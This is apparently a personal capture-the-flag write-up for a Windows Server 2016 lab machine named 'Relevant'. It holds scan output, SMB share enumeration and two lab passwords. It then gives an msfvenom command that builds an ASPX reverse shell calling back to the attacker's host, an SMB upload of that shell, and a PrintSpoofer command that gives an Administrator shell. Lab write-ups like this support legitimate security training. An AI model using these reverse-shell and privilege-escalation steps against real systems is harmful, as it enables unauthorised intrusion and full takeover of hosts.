






# Relevant

**Hostname:** 
`Relevant`

**OS:** 
- Windows 10 / Server 2016

**Users:**

- Bob
- Bill

**Credentials:**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## Port Scan:

```
Nmap scan report for 10.10.200.220
Host is up (0.059s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2025-05-29T14:02:23+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2025-05-28T13:53:29
|_Not valid after:  2025-11-27T13:53:29
|_ssl-date: 2025-05-29T14:03:02+00:00; -1s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RELEVANT; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-29T14:02:25
|_  start_date: 2025-05-29T13:53:29
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-29T07:02:27-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

SCRIPT: vuln

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
```

## Recon:

### SMB:

**Anonymous login:**
```
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
nt4wrksv        READ,WRITE      
```

**User Bob authenticated:**
```
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
nt4wrksv        READ,WRITE      
```

**User Bill authenticated:**
```
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
nt4wrksv        READ,WRITE      
```


### Machine:

**System info**
```
Host Name:                 RELEVANT                                                                                 
OS Name:                   Microsoft Windows Server 2016 Standard Evaluation                                        
OS Version:                10.0.14393 N/A Build 14393                                                               
OS Manufacturer:           Microsoft Corporation                                                                    
OS Configuration:          Standalone Server                                                                        
OS Build Type:             Multiprocessor Free                                                                      
Registered Owner:          Windows User                                                                             
Registered Organization:                                                                                            
Product ID:                00378-00000-00000-AA739                                                                  
Original Install Date:     7/25/2020, 7:56:59 AM                                                                    
System Boot Time:          5/29/2025, 7:45:53 AM                                                                    
System Manufacturer:       Amazon EC2                                                                               
System Model:              t3a.nano                                                                                 
System Type:               x64-based PC                                                                             
Processor(s):              1 Processor(s) Installed.                                                                
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2200 Mhz                          
BIOS Version:              Amazon EC2 1.0, 10/16/2017                                                               
Windows Directory:         C:\Windows                                                                               
System Directory:          C:\Windows\system32                                                                      
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     492 MB
Available Physical Memory: 86 MB
Virtual Memory: Max Size:  1,516 MB
Virtual Memory: Available: 858 MB
Virtual Memory: In Use:    658 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB3192137
                           [02]: KB3211320
                           [03]: KB3213986
Network Card(s):           1 NIC(s) Installed.
                           [01]: Amazon Elastic Network Adapter
                                 Connection Name: Ethernet 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.200.220
                                 [02]: fe80::b922:31c3:8b63:20dc
```

**WinPEAS Enumeration:**

```
Current Token privileges                                                   
    SeAssignPrimaryTokenPrivilege: DISABLED
    SeIncreaseQuotaPrivilege: DISABLED
    SeAuditPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED

```

## Foothold / Privilege Escalation:

### Initial Foothold

I started by enumerating the SMB shares using `nxc smb` and `smbclient`:




I transferred the passwords.txt file to my machine and it contained credentials encoded in base64.
I used the `base64 -d ` command to decode them and save them to my notes:



Initial access was achieved through a misconfigured SMB share. The share was exposed on a high HTTP port which showed up in my nmap scan. I used the found credentials to authenticate via SMB, and upload files into the share folder nt4wrksv.

The two HTTP ports running were suspicious, port 80 turned out to be nothing useful. But port 49663 turned out to be hosting the shared drive.
- I tested this by trying to access http://10.10.10.11:49663/nt4wrksv/passwords.txt



After verifying that it is the shared folder, I used msfvenom to generate a payload which when executed will give me a reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI> LPORT=8081 -f aspx > relevant.aspx
```



I used smbclient to connect to the share in order to upload my reverse shell script:
```
smbclient //$IP/nt4wrksv -U 'Bob'
```


After uploading I setup a netcat listener on port 8081 and visited the uploaded aspx file, in return I got a connection to my listener from the target machine.


---
### Privilege Escalation:

I transferred myself winpeas for easier enumeration,




I was able to elevate my privileges due to the iisapppool service having SeImpersonatePrivilege privilege type granting it the ability to impersonate the security context of another user or account, in this case the Administrator account.


On google there is loads of exploits exploiting this privilege, I used the Print Spoofer exploit.
First I downloaded the exploit from:
```
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

I used the same method as with the reverse shell payload, uploaded it to the server using SMB.


After I have it on the Windows machine, I have to run it with the context of executing a command, so to get an Administrator shell I used:
```
PrintSpoofer64.exe -i -c powershell.exe
```
And this gave me the Administrator powershell, gaining access to the Administrator folder.



## Journal:

**SeImpersonatePrivilege:**
- Windows privilege that grants a user or process the ability to impersonate the security context of another user or account
- Allows a process to assume the identity of another user, enabling it to perform actions or access resources as if it were that user
Enumerate manually using: 
```
whoami /priv
```
